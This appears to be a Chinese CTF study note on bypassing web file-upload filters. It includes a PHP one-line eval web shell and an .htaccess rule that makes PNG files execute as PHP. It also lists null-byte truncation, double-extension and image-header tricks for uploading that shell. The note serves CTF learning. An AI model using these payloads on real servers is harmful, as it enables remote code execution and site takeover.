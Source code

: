 # ctf-web- 文件上传

## 无过滤——一句话木马

``` php
<?php
    @eval($_REQUEST["shell"]);
?>
```

## 前端验证

**本质任然是一句话木马，只是修改文件后缀名为：比如图片，然后抓包，最后上传之前修改为 php**

## .htaccess

- https://www.cnblogs.com/0yst3r-2046/p/12511617.html
- https://blog.csdn.net/solitudi/article/details/116666720
- .htaccess 文件会被默认读取
- `AddType application/x-httpd-php .png` png 文件会被解析成 php 文件执行，可以编写好一句话木马，然后以 png 格式上传。

## 00 截断

- https://blog.csdn.net/luminous_you/article/details/110878989
- https://www.cnblogs.com/0yst3r-2046/p/12530316.html
- 需要抓包修改具体上传路径，访问到 000. php 就可以了
- ![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240806220013.png)

## 双写后缀

顾名思义 `test. pphphp` 其中一个 php 会被过滤掉。

## 文件头修改

- 上传真 png 文件，修改后缀，添加一句话木马
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240806220849.png)
